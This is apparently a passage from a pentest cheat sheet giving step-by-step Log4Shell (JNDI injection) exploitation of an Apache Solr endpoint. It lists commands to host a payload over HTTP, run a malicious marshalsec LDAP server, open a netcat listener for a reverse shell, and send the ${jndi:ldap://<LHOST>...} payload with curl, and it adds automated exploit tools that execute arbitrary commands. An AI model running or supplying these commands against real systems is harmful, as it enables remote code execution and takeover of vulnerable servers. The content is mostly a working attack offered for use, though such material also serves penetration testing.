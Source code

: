 ### Start Pyhton3 HTTP Server

```console
$ python3 -m http.server 80
```

### Starting the malicious LDAP Server

```console
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<LHOST>:80/#Exploit"
```

### Start local netcat listener

```console
$ nc -lnvp 9001
```

### Execution

```console
$ curl 'http://<RHOST>:8983/solr/admin/cores?foo=$\{jndi:ldap://<LHOST>:1389/Exploit\}'
```

#### Automatic Exploitation

> https://github.com/welk1n/JNDI-Injection-Exploit

```console
$ wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```

```console
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "<COMMAND>"
```

```console
${jndi:ldap://<LHOST>:1389/ci1dfd}
```

#### Automatic Exploitation Alternative

> https://github.com/kozmer/log4j-shell-poc

##### Prerequisistes

> https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

```console
$ tar -xvf jdk-8u20-linux-x64.tar.gz
```

##### Start the Listener

```console
$ python poc.py --userip <LHOST> --webport <RPORT> --lport <LPORT>                                   
```
